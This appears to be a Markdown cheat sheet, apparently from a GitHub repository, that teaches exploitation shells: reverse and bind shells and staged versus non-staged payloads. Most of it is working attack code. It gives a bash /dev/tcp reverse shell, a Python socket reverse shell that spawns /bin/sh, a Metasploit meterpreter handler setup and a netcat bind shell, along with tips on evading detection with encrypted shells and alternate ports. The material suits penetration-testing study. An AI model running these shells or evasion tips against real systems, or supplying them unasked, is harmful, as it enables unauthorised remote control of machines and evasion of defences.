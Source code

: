 # Exploitation Shells

## 🔹 Introduction
An **exploitation shell** is a command-line interface established after successfully exploiting a system, allowing an attacker to execute commands remotely. Shells can be categorized into **Reverse Shells** and **Bind Shells**, and they often use different types of **payloads**.

---

## 🔹 Reverse Shell
### **How It Works:**
A **Reverse Shell** is when the **target machine** initiates a connection back to the **attacker’s machine**, which is listening for incoming connections.

### **Why Use a Reverse Shell?**
- Useful when the target is behind **NAT** or a **firewall**.
- Attacker controls the session as soon as the target connects.

### **Setting Up a Listener (Attacker Machine)**
```bash
nc -lvp 4444
```
- **`-l`** → Listen mode.
- **`-v`** → Verbose output (shows connection details).
- **`-p`** → Specify port (in this case, `4444`).

### **Executing a Reverse Shell (Victim Machine)**
#### **Linux Reverse Shell (Bash)**
```bash
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
```
#### **Python Reverse Shell**
```python
import socket, subprocess, os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.100",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh", "-i"])
```
#### **Metasploit Reverse Shell**
```bash
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

---

## 🔹 Bind Shell
### **How It Works:**
A **Bind Shell** is when the **target machine** opens a specific port and waits for the attacker to connect to it.

### **Why Use a Bind Shell?**
- Useful when the attacker cannot directly reach the target (e.g., strict outbound firewall rules).
- Less common due to **firewall filtering** and detection.

### **Starting a Bind Shell on Victim Machine**
#### **Linux Bind Shell**
```bash
nc -lvnp 4444 -e /bin/sh
```

### **Connecting to the Bind Shell (Attacker Machine)**
```bash
nc 192.168.1.100 4444
```

---

## 🔹 Staged vs Non-Staged Payloads
### **Staged Payloads**
- **Delivers the payload in small parts** to avoid detection.
- The first-stage shell establishes a connection and downloads a **larger second stage payload**.
- **Example:** `windows/meterpreter/reverse_tcp`

### **Non-Staged Payloads**
- The entire payload is **sent in one go**.
- Faster but easier to detect.
- **Example:** `windows/meterpreter_reverse_tcp`

### **TIPS:**
- If one payload **fails**, try another variant.
- Different OS versions may require different shell techniques.
- **Use encrypted shells (SSL/TLS) to avoid detection.**
- **Try different ports** (some are blocked by firewalls).

---

## 🔹 Conclusion
Understanding **Reverse Shells, Bind Shells, and Payload Types** is crucial in exploitation. Using the right payload and technique can help bypass security defenses and maintain access.


